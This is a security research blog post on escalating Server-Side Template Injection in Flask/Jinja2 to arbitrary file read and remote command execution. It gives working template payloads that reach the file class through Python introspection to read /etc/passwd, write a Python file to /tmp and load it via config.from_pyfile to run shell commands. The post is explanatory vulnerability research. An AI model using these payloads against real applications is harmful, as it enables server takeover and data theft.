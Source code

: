 title: 'Exploring SSTI in Flask/Jinja2 - Part 2'
publish: True
categories: [application security]

I recently wrote [this article](/2016/03/09/exploring-ssti-flask-jinja2/) about exploring the true impact of Server-Side Template Injection (SSTI) in applications leveraging the Flask/Jinja2 development stack. My initial goal was to find a path to file or operating system access. I was previously unable to do so, but thanks to some feedback on the initial article, I have since been able to achieve that goal. This article is the result of the additional research.

<!-- READMORE -->

### The Nudge

In response to the initial article, [Nicolas G](https://twitter.com/_qll_) published the following tweet.

<blockquote class="twitter-tweet tw-align-center" data-conversation="none" lang="en"><p lang="en" dir="ltr"><a href="https://twitter.com/LaNMaSteR53">@LaNMaSteR53</a> <a href="https://twitter.com/albinowax">@albinowax</a> <a href="https://twitter.com/garethheyes">@garethheyes</a> {{&#39;&#39;.__class__.mro()[1].__subclasses__()[46](&#39;touch /tmp/rce&#39;,shell=True)}} (may be version-dependent)</p>&mdash; Nicolas G (@_qll_) <a href="https://twitter.com/_qll_/status/707714873774448640">March 9, 2016</a></blockquote>
<script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>

If you play with this payload a bit, you'll quickly notice that it doesn't work. There are several good reasons for that, which I'll get to shortly. The key takeaway, however, is that this payload uses several very important introspection utilities that we left out in our previous research: the `__mro__` and `__subclasses__` attributes.

DISCLAIMER: The following explanations are very high level. I have no desire to act like I know more about this stuff than I do. Most of the time when I'm dealing with obscure parts in the guts of a language/framework, I just try stuff to see if it gives me some desired behavior, but I don't always know why the end result is what it is. I am still learning the "why" behind these attributes, but I at least wanted to give you some sort of intro.

The MRO in `__mro__` stands for Method Resolution Order, and is defined [here](https://docs.python.org/release/2.6.4/library/stdtypes.html#class.__mro__) as, "a tuple of classes that are considered when looking for base classes during method resolution." The `__mro__` attribute consists of the object's inheritance map in a tuple consisting of the class, its base, its base's base, and so on up to `object` (if using new-style classes). It is an attribute of each object's metaclass, but is a truly hidden attribute, as Python explicitely leaves it out of `dir` output (see [Objects/object.c at line 1812](http://hg.python.org/cpython/file/3a1db0d2747e/Objects/object.c#l1812)) when conducting introspection.

The `__subclasses__` attribute is defined [here](https://docs.python.org/release/2.6.4/library/stdtypes.html#class.__subclasses__) as a method that "keeps a list of weak references to its immediate subclasses." for each new-style class, and "returns a list of all those references still alive."

Greatly simplified, `__mro__` allows us to go back up the tree of inherited objects in the current Python environment, and `__subclasses__` lets us come back down. So what's the impact on the search of a greater exploit for SSTI in Flask/Jinja2? By starting with a new-type object, e.g. type `str`, we can crawl up the inheritance tree to the root `object` class using `__mro__`, then crawl back down to every new-style object in the Python environment using `__subclasses__`. Yes, this gives us access to every class loaded in the current python environment. So, how do we leverage this new found capability?

### Exploitation

There are a few things to consider here. The Python environment will consist of:

1. Things native to all Flask applications.
2. Things custom to the target application.

We are after a universal exploit, so we want to set up our test environment to be as close to native Flask as possible. The more we add to the application in the way of imported libraries and 3rd party modules, the less universal our attack vector will become. Our previous proof-of-concept application was a good candidate for this, so let's continue to use it.

The cool thing about what we're about to do is that it requires no modification of the target source in order to discover an exploit vector. In the previous article, we had to add some functionality to the vulnerability in order to conduct introspection. This is no longer required.

The first thing we want to do is is select a new-style object to use for accessing the `object` base class. We can simply use `''`, a blank string, object type `str`. Then, we can use the `__mro__` attribute to access the object's inherited classes. Inject `{{ ''.__class__.__mro__ }}` as a payload into the SSTI vulnerability.

[![](/static/images/posts/ssti_flask_p2_1.png)](/static/images/posts/ssti_flask_p2_1.png)

We can see the previously discussed tuple being returned to us. Since we want go back to the root `object` class, we'll leverage an index of `2` to select the class type `object`. Now that we're at the root object, we can leverage the `__subclasses__` attribute to dump all of the classes used in the application. Inject `{{ ''.__class__.__mro__[2].__subclasses__() }}` into the SSTI vulnerability.

[![](/static/images/posts/ssti_flask_p2_2.png)](/static/images/posts/ssti_flask_p2_2.png)

As you can see, there is a lot of stuff here. In the target application I am using, there are 572 accessible classes. This is where things get tricky, and why the tweeted payload mentioned above doesn't work. Remember, not every application's Python environment will look the same. The goal is to find something useful that leads to file or operating system access. It is probably not all that uncommon to find classes like `subprocess.Popen` used somehere in an application that may not be otherwise exploitable, such as the application affected by the tweeted payload, but from what I've found, nothing like this is available in native Flask. Luckily, there is capability in native Flask that allows us to achieve similar behavior.

If you comb through the output of the previous payload, you should find the `<type 'file'>` object. This is the key to file system access. While `open` is the builtin function for creating file objects, the `file` class is also capable of instantiating file objects, and if we can instantiate a file object, then we can use methods like `read` to extract the contents. To demonstrate this, find the index of the `file` class and inject `{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}` where `40` is the index of the `<type 'file'>` object in my environment.

[![](/static/images/posts/ssti_flask_p2_3.png)](/static/images/posts/ssti_flask_p2_3.png)

So, we've now demonstrated that arbirtrary file access is possible via SSTI in Flask/Jinja2, but we're not done yet. My goal in this was Remote Code/Command Execution.

The previous article referenced several methods of the `config` object that load objects into the Flask configuration environment. One such method was the `from_pyfile` method. Below is the code for the `from_pyfile` method of the `Config` class, `flask/config.py`.

```python
    def from_pyfile(self, filename, silent=False):
        """Updates the values in the config from a Python file.  This function
        behaves as if the file was imported as module with the
        :meth:`from_object` function.

        :param filename: the filename of the config.  This can either be an
                         absolute filename or a filename relative to the
                         root path.
        :param silent: set to `True` if you want silent failure for missing
                       files.

        .. versionadded:: 0.7
           `silent` parameter.
        """
        filename = os.path.join(self.root_path, filename)
        d = imp.new_module('config')
        d.__file__ = filename
        try:
            with open(filename) as config_file:
                exec(compile(config_file.read(), filename, 'exec'), d.__dict__)
        except IOError as e:
            if silent and e.errno in (errno.ENOENT, errno.EISDIR):
                return False
            e.strerror = 'Unable to load configuration file (%s)' % e.strerror
            raise
        self.from_object(d)
        return True
```

There's a couple of interesting things here. The most obvious is the use of the `compile` function against the contents of a file whose path is provided as a parameter. This would come in handy if we had a way to write files to the operating system, no? Well, as we just discussed, we do! We can use the aforementioned `file` class to not only read files, but write them to world writeable locations on the target server. Then, we can call the `from_pyfile` method through the SSTI vulnerability to compile the file and execute the contents. This is a 2 staged attack. First, inject something like `{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('<malicious code here>'') }}` into the SSTI vulnerability. Then, invoke the compilation process by injecting `{{ config.from_pyfile('/tmp/owned.cfg') }}`. The code will execute upon compilation. Remote Code Execution achieved.

But let's take it a step even further. While running code is great and all, having to go through a multi-step process for each block of code we want to run is tedious. Let's leverage the `from_pyfile` method for its intended purpose and add something useful to the `config` object. Inject `{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}` into the SSTI vulnerability. This will write a file to the remote server that, when compiled, imports the `check_output` method of the `subprocess` module and sets it to a variable named `RUNCMD`, which, if you recall from the previous article, will get added to the Flask `config` object virtue of it being an attribute with an upper case name.

[![](/static/images/posts/ssti_flask_p2_4.png)](/static/images/posts/ssti_flask_p2_4.png)

Inject `{{ config.from_pyfile('/tmp/owned.cfg') }}` to add the new item to the `config` object. Notice the difference between the following before and after images.

[![](/static/images/posts/ssti_flask_p2_5.png)](/static/images/posts/ssti_flask_p2_5.png)

[![](/static/images/posts/ssti_flask_p2_6.png)](/static/images/posts/ssti_flask_p2_6.png)

Now we can invoke the new configuration item to run commands on the remote operating system. Demonstrate this by injecting `{{ config['RUNCMD']('/usr/bin/id',shell=True) }}` into the SSTI vulnerability.

[![](/static/images/posts/ssti_flask_p2_7.png)](/static/images/posts/ssti_flask_p2_7.png)

Remote Command Execution achieved.

### Conclusion

We can now close the book on escaping the Flask/Jinja2 template sandbox and conclude that the impact of SSTI in Flask/Jinja2 environments is substantial. I'd also like to point out that this is largely the result of the way Python works, and not so much the fault of the Flask framework. I'd be willing to bet that all of the Python MVC/MTV web frameworks suffer from similar exploitation vectors. Ultimately, it is up to the developers using these frameworks to properly follow template design best practices and ensure that their applications do not blindly trust user-supplied data.
